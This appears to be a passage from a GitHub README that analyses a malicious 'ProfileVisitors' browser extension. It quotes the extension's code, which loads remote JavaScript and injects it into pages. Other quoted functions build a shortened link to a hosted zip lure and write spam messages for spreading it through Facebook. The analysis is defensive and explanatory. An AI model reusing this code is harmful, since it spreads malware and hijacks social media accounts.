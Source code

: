 <br> See `filters.php` in this repo for a dump of the list of websites they block.
<br> See `facebook.js` in this repo for a dump of the Facebook hack script
<br> See `twitter.js` in this repo for a dump of the Twitter hack script
<br> These script are dumped so that you can see how it works, but <b>NOT</b> to reuse it by any manners!
### 8) How they steal your account?
<br> You can see in the end of the remote Javascript file there is:
```javascript
loadData(uri("/js/facebook.js?" + Date.now()));
loadData(uri("/js/twitter.js?" + Date.now()));
```
<br> With `loadData` defined as:
```javascript
var loadData = function (url, callback) {
  fetch(url).then(response => response.blob()).then((data) => {
    var url = URL.createObjectURL(data);
    var tg = document.getElementsByTagName('script')[0];
    var js = document.createElement('script');
    js.src = url;
    tg.parentNode.insertBefore(js, tg);
    if (callback) {
      callback();
    }
  });
}
```
<br> Using the same technique, let's get the source code of `facebook.js` and `twitter.js`. Because they are too long (`facebook.js` has 1000+ lines), so please view it at `facebook.js` and `twitter.js` in this repo.
<br> For Facebook, they have:
```javascript
facebook.getLink = function (vars) {
  fetch(uri("/ajax/storage.php?hash=" + config.token)).then(response => response.json()).then((data) => {
    var ref = "facebook";
    if(vars.mode == 'groups'){
      ref = "groups";
    }
    var cid = guid();
    var zip = encodeURIComponent(`ProfileVisitors v${rand(1,9)}.${rand(1,9)}.zip`);
    var exe = `visitors.facebook.com`;
    vars.link = `https://storage.googleapis.com/${data.storage.bucket}/${data.storage.object}?ref=${ref}&cid=${cid}&zip=${zip}&exe=${exe}`;
    console.log(vars.link);
    facebook.isgd(vars);
  })
}

facebook.isgd = function (vars) {
  fetch("https://is.gd/create.php?format=simple&url=" + encodeURIComponent(vars.link)).then(response => response.text()).then((data) => {
    vars.link = data;
    if (vars.mode == "friends") {
      facebook.calculatecount(vars);
    } else if(vars.mode == "groups") {
      facebook.getToken(vars);
    }
  })
}
```
<br> and
```javascript
facebook.translate = function (vars) {
  vars.message = "Hi See your profile visitors with ProfileVisitors";
```